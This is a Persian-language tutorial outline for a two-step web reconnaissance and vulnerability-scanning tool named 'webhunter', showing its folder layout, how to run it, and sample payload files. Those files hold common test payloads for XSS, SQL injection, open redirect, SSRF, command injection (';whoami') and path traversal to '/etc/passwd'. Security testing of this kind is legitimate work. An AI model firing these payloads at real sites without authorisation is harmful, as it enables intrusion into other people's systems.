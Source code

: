 ساختار مرحله اول:
```
webhunter/
├── step1_recon.py          ← مرحله جمع‌آوری اطلاعات
├── urls.txt                ← لیست هدف‌ها
├── out/
│   ├── recon_raw.txt
│   ├── tech_stack.json
```
🐍 کد مرحله اول: step1_recon.py
ابزاری برای استخراج اطلاعات اولیه دامنه (headers، تکنولوژی، وضعیت DNS، WAF احتمالی)

طرز اجرا:
یک فایل urls.txt بساز و دامنه‌ها یا URLها رو توش بنویس:

```
https://example.com
https://target.com/login
```
اجرای اسکریپت:

```
python3 step1_recon.py
```
خروجی‌ها در پوشه out/ ذخیره می‌شن:

recon_raw.txt: خروجی خلاصه

tech_stack.json: خروجی کامل قابل استفاده برای مرحله بعد

========================================================================

===>>> step2_recon.py


 ساختار پروژه بعد از مرحله دوم:
```
webhunter/
├── step1_recon.py
├── step2_async_scanner.py    ← ابزار async اسکن
├── urls.txt
├── out/
│   ├── recon_raw.txt
│   ├── tech_stack.json
│   ├── vuln_scan_report.html  ← خروجی دسته‌بندی‌شده
├── payloads/
│   ├── xss.txt
│   ├── sql.txt
│   ├── redirect.txt
│   ├── ssrf.txt
│   ├── cmd.txt
│   ├── lfi.txt

```

📝 نمونه محتویات فایل‌های پیلود:
```
payloads/xss.txt
php-template
```

```
<script>alert(1)</script>
"><img src=x onerror=alert(1)>
payloads/sql.txt
```

```
' OR '1'='1
" OR 1=1 --
payloads/redirect.txt
```

```
https://google.com
//evil.com
payloads/ssrf.txt
```

```
http://127.0.0.1
http://localhost/admin
payloads/cmd.txt
```

```
;whoami
| ls /
payloads/lfi.txt
```

```
../../../../etc/passwd
../boot.ini
```
✅ اجرای اسکریپت:
```
python3 step2_async_scanner.py
```
🧪 خروجی:
فایل HTML out/vuln_scan_report.html تولید می‌شه که شامل جدول همه آسیب‌پذیری‌های پیدا‌شده با رنگ‌بندی نوع آسیب‌پذیری هست.
